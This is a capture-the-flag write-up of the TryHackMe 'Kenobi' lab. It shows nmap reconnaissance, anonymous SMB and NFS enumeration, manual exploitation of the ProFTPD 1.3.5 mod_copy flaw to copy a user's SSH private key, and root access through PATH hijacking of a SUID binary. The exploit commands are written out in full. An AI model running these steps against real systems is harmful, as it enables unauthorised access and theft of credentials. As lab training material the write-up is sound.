






# TryHackMe: Kenobi — Writeup

**Category:** Linux Service Exploitation / Privilege Escalation
**Difficulty:** Easy
**Skills Demonstrated:** SMB & NFS Enumeration, Service Version Fingerprinting, Manual Exploit Execution (ProFTPD mod_copy), PATH Variable Hijacking

---

## Objective

Enumerate a Linux target exposing multiple network services (FTP, SMB, NFS), chain together misconfigurations across services to steal an SSH private key, and escalate to root via a vulnerable custom binary.

---

## 1. Reconnaissance

Ran an initial service scan:

```bash
nmap -sS -sV -T4 -oN nmap_default.txt 10.114.187.228
```



**Results:**

| Port | Service | Version |
|------|---------|---------|
| 21/tcp | FTP | ProFTPD 1.3.5 |
| 22/tcp | SSH | OpenSSH 8.2p1 (Ubuntu) |
| 80/tcp | HTTP | Apache httpd 2.4.41 |
| 111/tcp | RPC | rpcbind |
| 139/445/tcp | SMB | Samba smbd 4.6.2 |
| 2049/tcp | NFS | (RPC #100003) |

Three services stood out as chainable attack surface: **SMB**, **NFS**, and the outdated **ProFTPD 1.3.5**.

---

## 2. Enumeration

### 2.1 SMB Share Discovery

```bash
smbclient -L 10.114.187.228 -N
```

Found three shares: `print$`, `anonymous`, and `IPC$`. The `anonymous` share name was an immediate red flag for unauthenticated access.

```bash
smbclient //10.114.187.228/anonymous -N
```



Connected without credentials and found a single file: `log.txt`, which contained a version banner confirming the **ProFTPD 1.3.5** installation — the lead that shaped the rest of the attack path.

### 2.2 NFS Enumeration

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.114.187.228
```



The `/var` directory was exported via NFS and readable without restriction — this became critical later, since ProFTPD's home directory structure lived under `/var`, giving a way to retrieve files written there by the FTP exploit.

### 2.3 Vulnerability Research

With the ProFTPD version confirmed, searched for known exploits:

```bash
searchsploit proftpd 1.3.5
```

Multiple `mod_copy` command execution exploits were listed — this module allows arbitrary file copy commands to be issued over the FTP control channel without authentication.

---

## 3. Exploitation

### 3.1 Abusing ProFTPD mod_copy (Manual Exploitation)

Rather than relying on an automated Metasploit module, exploited the vulnerability manually via raw FTP commands over netcat — using `SITE CPFR` (copy from) and `SITE CPTO` (copy to) to instruct the FTP server to copy the target user's SSH private key into the NFS-exported `/var` directory:

```bash
nc 10.114.187.228 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```



Server responded **"Copy successful"** — the private SSH key was now sitting in a location accessible via the NFS share discovered earlier.

### 3.2 Retrieving the Key via NFS and Gaining SSH Access

```bash
mkdir /mnt/kenobiNFS
mount 10.114.160.154:/var /mnt/kenobiNFS
cp /mnt/kenobiNFS/tmp/id_rsa .
chmod 0400 id_rsa
ssh -i id_rsa kenobi@10.114.160.154
```



Authenticated successfully as `kenobi` using the stolen key.

```bash
cat user.txt
```

✅ **User flag captured.**

*(Note: the target's IP changed mid-engagement to `10.114.160.154` after a room session reset — a normal occurrence on shared lab infrastructure.)*

### 3.3 Privilege Escalation via PATH Hijacking

Searched for SUID binaries:

```bash
find / -perm -u=s -type f 2>/dev/null
```

Alongside standard system binaries, a **custom SUID binary — `/usr/bin/menu`** — stood out immediately as an application-specific target.

Running it revealed a simple interactive menu (status check, kernel version, ifconfig). Testing the "status check" option showed it internally called `curl` **without an absolute path** — meaning it relied on the system `PATH` environment variable to locate the binary, a classic PATH hijacking opportunity.

Exploited this by placing a malicious `curl` earlier in the `PATH`:

```bash
cd /tmp
echo /bin/sh > curl
chmod 777 curl
export PATH=/tmp:$PATH
/usr/bin/menu
```



Selecting the "status check" option executed the fake `curl` script instead of the real one — since `menu` runs with SUID root permissions, this spawned a **root shell**.

```bash
whoami        # root
cd /root
cat root.txt
```

✅ **Root flag captured.**

---

## 4. Root Cause Analysis

| Weakness | Impact |
|----------|--------|
| Unauthenticated `anonymous` SMB share | Leaked internal file (`log.txt`) exposing service version info |
| Unrestricted NFS export of `/var` | Provided a channel to retrieve files planted elsewhere on the system |
| Outdated ProFTPD 1.3.5 with `mod_copy` enabled | Allowed unauthenticated arbitrary file copy, leaking the SSH private key |
| Custom SUID binary calling `curl` without an absolute path | Enabled trivial PATH hijacking to escalate to root |

---

## 5. Key Takeaways

- **Service misconfigurations rarely exist in isolation** — this box's compromise depended on chaining three unrelated services (SMB, NFS, FTP) together. Real-world engagements often unfold the same way; a single hardened service isn't enough if others leak the right information.
- **Manual exploitation deepens understanding** — issuing the `mod_copy` exploit by hand via raw FTP commands (instead of a Metasploit one-liner) makes the underlying vulnerability mechanics far clearer, and is a better habit to build for OSCP/CRTO-style exams that restrict automated tooling.
- **SUID binaries that shell out to other commands are a classic privilege escalation vector** — any time a privileged binary calls external programs without a hardcoded, absolute path, PATH hijacking should be the first thing tested.
- Reinforced a broader lesson for red teaming: **enumeration output from one service often becomes the exploitation input for another** — always correlate findings across all open ports rather than treating each service scan in isolation.

---

*Room: [TryHackMe — Kenobi](https://tryhackme.com/room/kenobi)*
